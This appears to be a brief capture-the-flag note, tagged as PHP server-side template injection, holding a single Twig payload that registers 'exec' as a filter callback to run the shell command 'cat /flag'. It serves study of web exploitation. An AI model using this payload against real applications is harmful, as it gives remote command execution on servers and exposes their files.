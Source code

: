 tags:: [[CTFWEB/PHP/SSTI]]

- ```
  {{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
  ```